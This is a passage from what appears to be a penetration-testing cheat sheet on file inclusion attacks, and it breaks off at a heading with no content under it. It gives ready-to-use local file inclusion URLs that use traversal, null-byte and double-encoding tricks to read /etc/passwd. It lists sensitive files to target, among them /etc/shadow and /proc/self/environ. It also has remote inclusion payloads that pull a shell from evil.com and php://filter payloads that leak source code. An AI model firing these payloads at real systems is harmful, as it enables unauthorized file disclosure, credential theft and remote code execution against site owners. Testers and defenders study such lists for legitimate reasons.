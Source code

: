 > The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application.

### 15.1. Basic LFI (null byte, double encoding and other tricks)

```
http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd
```

Interesting files to check out :

```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```

### 15.2. Basic RFI (null byte, double encoding and other tricks)

```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### 15.3. LFI / RFI Wrappers

LFI Wrapper rot13 and base64 - php://filter case insensitive

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

can be chained with a compression wrapper
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

#### LFI Wrapper ZIP
